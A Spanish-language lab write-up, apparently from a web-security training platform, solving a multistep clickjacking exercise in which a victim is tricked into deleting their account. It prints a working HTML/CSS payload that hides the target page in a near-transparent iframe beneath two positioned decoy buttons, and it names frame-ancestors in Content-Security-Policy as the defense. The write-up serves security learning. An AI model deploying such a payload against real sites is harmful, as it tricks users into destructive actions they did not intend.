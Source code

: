 En este laboratorio se presenta una defensa adicional contra el clickjacking: además de un token CSRF, el botón de eliminación de cuenta incluye una ventana de confirmación. Para explotar esta funcionalidad, el ataque debe engañar a la víctima para que realice dos clics consecutivos en ubicaciones específicas: uno para activar el botón de “Eliminar cuenta” y otro para confirmar la acción.

Para lograrlo, se estructura una página con dos capas señuelo (Click me first y Click me next), alineadas con los botones reales del formulario y del cuadro de confirmación, respectivamente. El iframe que contiene la página objetivo se vuelve prácticamente invisible gracias al uso de opacidad muy baja.

Una vez que la víctima interactúa con los dos elementos señuelo, el proceso completo de eliminación de cuenta se ejecuta con éxito, incluyendo la confirmación del diálogo. Este ataque demuestra cómo el clickjacking puede seguir siendo efectivo incluso en flujos de múltiples pasos si no se implementan defensas robustas adicionales como ‘**frame-ancestors**‘ o ‘**same-origin**‘ en ‘**Content-Security-Policy**‘.

Solucion
Aqui es donde se va ver el Click me First y el Click me Second
![[Pasted image 20250724235114.png]]
e aqui el payload 

<style>
	iframe {
        position:relative;
        width:500px;
        height: 600px;
        opacity: 0.001;
    }
    .firstClick {
        position:absolute;
        top: 497px;
        left: 80px;
    }
   .secondClick{
        position:absolute;
        top: 290px;
        left: 200px;
    }
</style>

<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a830098033a67dd8079033200b9003e.web-security-academy.net/my-account"></iframe>
